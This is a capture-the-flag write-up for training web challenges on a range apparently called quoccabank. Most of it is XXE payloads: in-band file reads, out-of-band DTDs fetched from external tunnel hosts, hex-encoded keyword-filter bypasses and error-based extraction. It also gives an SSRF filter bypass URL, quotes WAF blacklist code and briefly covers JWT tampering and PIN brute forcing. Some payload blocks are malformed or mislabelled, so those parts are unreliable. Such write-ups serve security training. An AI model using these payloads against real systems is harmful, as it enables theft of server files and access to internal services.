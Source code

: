 ## v1.feedifier.quoccabank.com

Used pastebin raw paste - https://pastebin.com/RyQepthP

In-band basic xxe payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM 'file:///flag_64b3ebd165d9508735bc8a29ddebb285'> ]>
<rss> <channel>
<item> <description>1</description> <link>1</link> <title>&xxe;</title>
</item> </channel> </rss>
```

## v2.feedifier.quoccabank.com (TBD) 
Used pastebin + locally hosted url (since I wanted http)

Out-band xxe payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
  <!ENTITY % dtd SYSTEM "http://strong-gecko-39.loca.lt/feedifierv2.txt">
  %dtd;
]>
<rss>
<channel>
	<item>
		<description>1</description>
		<link> 1</link>
		<title>&inject;</title>
	</item>
</channel>
</rss>
```

And at http://strong-gecko-39.loca.lt/feedifierv2.txt
```xml
<!ENTITY inject SYSTEM "file:///flag_0054c423ef634e00b4a586f4142e7522">
```


# v3.feedifier.quoccabank.com
1. Here, the sanitiser was checking keywords in my secondary file. (probably a regex matching). 
So, to bypass this, you can try using hex encodings (Eg; f is 0x66)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % dtd SYSTEM "http://warm-panther-32.loca.lt/payload3.txt">
  %dtd;
  %comb;
]>
<rss>
<channel>
	<item>
		<description>1;</description>
		<link> 1;</link>
		<title>&inject;</title>
	</item>
</channel>
</rss>
```xml

At http://strong-gecko-39.loca.lt/feedifierv2.txt:
```xml
<!ENTITY % comb "<!ENTITY inject SYSTEM '&#x66;ile:///&#x66;lag_d9cd6fcd14d4597712c583d5fc1e5362'>">
```


2. Alternative method: Error based XXE

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % dtd SYSTEM "http://warm-panther-32.loca.lt/payload3.txt">
  %dtd;
]>
<rss>
<channel>
	<item>
		<description>1</description>
		<link>1</link>
		<title>&dtd;</title>
	</item>
</channel>
</rss>
```


And at http://warm-panther-32.loca.lt/payload3.txt:
```xml
<!ENTITY % first "fi">
<!ENTITY % second "le:////fl">
<!ENTITY % third "ag_d9cd6fcd14d4597712c583d5fc1e5362">

<!ENTITY % dummy1 "<!ENTITY &#x25; trick SYSTEM '/%first%second%third;'>">

%dummy1         --->  resolved into <!ENTITY % trick SYSTEM 'file:///flag_{...}'>

<!ENTITY % dummy2 "<!ENTITY &#x25; error SYSTEM '/%trick;'>">

%dummy2         --> puts an invalid flag/flag/{...} file

%error 
```

# v3.feedifier.quoccabank.com
1. Overwrite a dtd defintion from docbook. Note: only the first definition is used and rest are ignored.
You need to find a paramterised definition which is also executed in the docbook

Error based extraction:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY % importDocbook SYSTEM "file:///usr/share/sgml/docbook/dtd/4.5/docbookx.dtd">
  <!ENTITY % ISOamso '<!ENTITY &#37; flag SYSTEM "file:///flag{...}">'>
  <!ENTITY &#37; win "<!ENTITY &#38;#37; newvar SYSTEM "flag;">'>

  %importDocbook;
  %win;
]>
<rss>
<channel>
	<item>
		<description>1</description>
		<link>1</link>
		<title>&dtd;</title>
	</item>
</channel>
</rss>
```

# letters.quoccabank.com (TBD)

# signin (TBD)

# wallet.quoccabank.com

# notes.quoccabank.com
Access Control Vuln:  

1. Cookie was a JWT token.  
2. Changed username to admin, and modified expiry time to get flag

# files.quoccabank.com
Flag 1: Brute forcing the pins in `files.quoccabank.com/admin`  

Flag 2: Logging in as username=admin, password=0 (Got clue from sales.quoccabank)

Flag 3: Escalating privilege using /staff/wfh 

Flag 4: Why isnt my JWTtoken with flask key not working??


# ctfproxy2.quoccabank.com
Robots.txt shows a /flag path

In /flag path's source it is mentioned that "adam said we can't show our super secret flag to external users"

So perhaps there is a way to use the server to call /flag instead. (SSRF)

Navigate to ctfproxy2.quoccabank.com/me, I see potential to enter an internal link.
There is some WAF code in the src:
```js
my billion-dollar WAF machine learning algorithm:

    url = request.form.get("avatar", "")
    if not url.endswith(".png"):
      flash("Avatar must be png file!", "danger")
      return redirect(url_for("me"))
    try:
      blacklist = ['?', '127.', 'localhost', '0/', '::', '[', ']']
      for w in blacklist:
        if w in url:
          raise Exception("'%s' is dangerous" % w)
      try:
        domain = re.match(r"^https?://([a-zA-Z0-9-_.]+)", url).group(1)
      except IndexError:
        raise Exception("invalid url")
      ip = socket.gethostbyname(domain)
      if ipaddress.ip_address(unicode(ip)).is_private:
        raise Exception("it is forbidden to access internal server " + ip)
```

http://www.google.com@2130706433/flag#1.png